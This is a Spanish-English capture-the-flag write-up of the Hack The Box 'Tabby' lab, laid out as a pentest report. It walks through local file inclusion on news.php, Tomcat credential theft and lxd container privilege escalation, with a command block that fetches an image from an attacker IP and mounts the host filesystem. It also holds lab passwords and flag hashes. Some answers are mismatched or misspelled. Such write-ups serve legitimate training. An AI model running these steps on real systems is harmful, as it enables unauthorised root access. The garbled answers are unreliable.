# Informe Técnico de Seguridad Ofensiva: Tabby


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Tabby** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Tabby |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Linux |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

How many TCP ports are open on the remote host?

R: 3



**What application is running on TCP 8080? (One word)**

R:  tomcat



**Which link leads to the page containing the statement on recovering from the data breach?**

R: [http://megahosting.htb/news.php?file=statement](http://megahosting.htb/news.php?file=statement)





Which URL parameter of the news.php page is vulnerable to Local File Inclusion?

R: file

**Which system user has user id 1000 on Tabby?**

R:ash



**What is the full path of Apache Tomcat's configuration file which contains a list of user names, roles, and passwords.**

R: /usr/share/tomcat9/etc/tomcat-users.xml


**What is the password of the Apache Tomcat user `tomcat`?**

R: `$3cureP4s5w0rd123!`

**What is the path on the webserver that leads to the text interface of the Host Manager app of Apache Tomcat?**

R:/manger/text



Which command is used in the text interface of the Host Manager app of Apache Tomcat to deploy a new application archive (WAR) remotely?

R: deploy



What is the password for the file 16162020_backup.zip?

R:











**What is the password for the file `16162020_backup.zip`?**

R: admin@it







La contraseña sirve para abrir ash

**Submit the flag located in the ash user's home directory.**

R: 475c8383e7e1a49d52aaeaf37948cacd



Which interesting user group is the user ash a member of?

R: lxd



**What is the command for listing the VM images present in `lxd`?**

R: lxc image list

**Which flag needs to be set as `true` in the `lxc init` command in order to force the container to interact as `root` with the host filesystem?**

R: security.privileged

What is the command for listing the VM images present in lxd?

R:  5b3b483c29691d38c60d14e1962c559d





```jsx

git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
./build-alpine

cd /home/ash
wget http://10.10.14.3:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
/snap/bin/lxd
cp alpine-v3.13-x86_64-20210218_0139.tar.gz ~/
lxc image import /home/ash/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias ubuntutemp
lxc image list
lxc config device add ignite host-root disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite -- /bin/sh
ls -l /mnt/root
```

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
